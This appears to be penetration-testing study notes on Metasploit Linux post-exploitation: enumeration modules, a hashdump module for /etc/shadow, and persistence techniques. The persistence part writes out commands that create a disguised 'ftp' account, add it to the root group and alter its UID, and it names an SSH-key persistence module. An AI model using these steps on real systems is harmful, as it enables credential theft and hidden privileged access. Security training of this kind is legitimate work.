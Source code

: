 # MSF Linux Post Exploitation Modules


We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to:

+ Enumerate system configuration
+ Enumerate environment variables
+ Enumerate network configuration
+ VM check
+ Enumerate user history





## Local Enumeration

post/linux/gather/enum_configs
post/linux/gather/enum_system
post/linux/gather/enum_network
post/linux/gather/enum_users_history
post/linux/gather/check_container # check if it is a container like docker
post/linux/gather/checkvm # check if it is a VM


post/linux/gather/enum_protections
	This module checks whether popular system hardening mechanisms are in place, such as SMEP, SMAP, SELinux, PaX and grsecurity. It also tries to find installed applications that can be used to hinder, prevent, or detect attacks, such as tripwire, snort, and apparmor. This module is meant to identify Linux Secure Modules (LSM) in addition to various antivirus, IDS/IPS, firewalls, sandboxes and other security related software.

results can be found with `loot`
	


	

search env platform:linux

post/multi/gather/env









## Hash Dump

We can dump Linux user hashes with the hashdump post exploitation module. Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.

The hashdump module can be used to dump the user account hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with John the Ripper.



post/linux/gather/hashdump













## Establishing Persistence On Linux

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.

The persistence techniques we can utilize will depend on the target configuration.

We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.



- Create a user account that looks like a service account
```
useradd -m ftp -s /bin/bash
useradd -m /var/www/html ftp -s /usr/sbin/nologin

passwd ftp

usermod -aG root ftp
usermod -u [ID] ftp
usermod -u 15 ftp # change the ID to other than the default!

```


- Create a persistent service or cronjob

- Add an SSH key



### MSF

search platform:linux persistence


post/linux/manage/sshkey_persistence







